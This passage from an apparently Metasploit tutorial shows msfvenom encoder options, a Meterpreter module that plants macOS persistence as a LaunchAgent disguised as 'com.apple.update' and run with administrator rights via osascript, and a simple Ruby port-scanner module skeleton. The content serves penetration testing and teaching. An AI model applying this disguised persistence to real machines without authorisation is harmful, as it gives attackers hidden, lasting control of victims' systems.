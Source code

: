 You can add an encoder (`-e x86/shikata_ga_nai`) or exclude bad characters (`-b '\x00'`). Full list of options lives in the msfvenom docs【6†L6-L13】.

### 6.2 Persistence on macOS (LaunchAgent)  

```bash
# Inside a Meterpreter session with root
use exploit/macos/local/persistence
set SESSION 1
set STARTUP_TYPE LaunchAgent
set STARTUP_NAME com.apple.update
set LAUNCHER "/usr/bin/osascript -e 'do shell script \"#{payload}\" with administrator privileges'"
run
```

A `~/Library/LaunchAgents/com.apple.update.plist` file is written. Verify with:

```bash
meterpreter > run post/macos/gather/launchd
```

### 6.3 Writing Your Own Ruby Module (Skeleton)  

Save the following as `~/my_modules/auxiliary/scanner/custom_port.rb` and load it with `load /path/to/file.rb`:

```ruby
require 'msf/core'

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'        => 'Custom TCP Port Scanner',
      'Description' => 'Simple scanner that connects to a TCP port and reports if it is open.',
      'Author'      => ['Your Name'],
      'License'     => MSF_LICENSE))

    register_options([
      Opt::RPORT(80)
    ])
  end

  def run_host(ip)
    begin
      connect
      print_good("#{ip}:#{rport} is open")
    rescue ::Rex::ConnectionError
      # silently ignore closed ports
    ensure
      disconnect
    end
  end
end
```
